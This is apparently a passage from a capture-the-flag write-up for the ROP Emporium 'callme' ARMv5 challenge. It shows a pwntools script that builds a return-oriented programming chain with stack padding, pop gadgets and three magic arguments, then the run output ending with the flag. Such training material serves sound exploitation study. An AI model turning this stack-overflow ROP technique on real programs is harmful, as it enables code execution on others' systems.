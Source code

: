 ``` python

io.recvuntil(b"> ")

print(elf.symbols)
callme_one = elf.plt["callme_one"]
callme_two = elf.plt["callme_two"]
callme_three = elf.plt["callme_three"]

log.info(f"{callme_one=:x}")
log.info(f"{callme_two=:x}")
log.info(f"{callme_three=:x}")

offset=0x20

PL=b"A"*offset
PL+=p32(1)              # Pour fp

for adrcall in [callme_one, callme_two, callme_three ]:
    PL+=p32(g_pop_r012)
    PL+=p32(0xdeadbeef)     # r0
    PL+=p32(0xcafebabe)     # r1
    PL+=p32(0xd00df00d)     # r2
    PL+=p32(g_popr3)        # lr adresse de retour de callme
    PL+=p32(adrcall)
    PL+=p32(3)              # pour le r3 de pop {r3,pc}

print(PL.hex())
io.sendline(PL)
io.interactive()
```

### Execution

    [*] '/home/jce/w/ropemporium/armv5/03_callme/callme_armv5'
        Arch:     arm-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x10000)
        RUNPATH:  b'.'
    [+] Starting local process '/home/jce/w/ropemporium/armv5/03_callme/callme_armv5': pid 7681
    [*] callme_one=10618
    [*] callme_two=1066c
    [*] callme_three=1060c
    [*] Switching to interactive mode
    Thank you!
    callme_one() called correctly
    callme_two() called correctly
    ROPE{a_placeholder_32byte_flag!}
    [*] Got EOF while reading in interactive


